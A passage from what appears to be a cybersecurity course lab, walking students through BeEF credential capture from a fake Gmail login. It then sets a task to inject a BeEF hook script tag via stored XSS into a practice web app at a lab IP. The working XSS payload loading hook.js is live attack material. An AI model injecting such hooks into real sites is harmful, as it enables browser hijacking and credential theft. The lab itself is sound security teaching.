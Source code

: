     ![](Images/gmail_exploit_login.png)

   - Return to the BeEF control panel. In the center panel, select the
first option. Note that now on the right panel, the username and
password have been captured by the attacker.

    ![](Images/BeEF_control_panel.png)


5. Now that you know how to use the BeEF tool, you’ll use it to test
the Replicants web application. You are tasked with using a stored XSS
attack to inject a BeEF hook into Replicants’ main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application
which was used the first day of this unit:
`http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef`
command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script
src=“http://127.0.0.1:3000/hook.js”></script>`
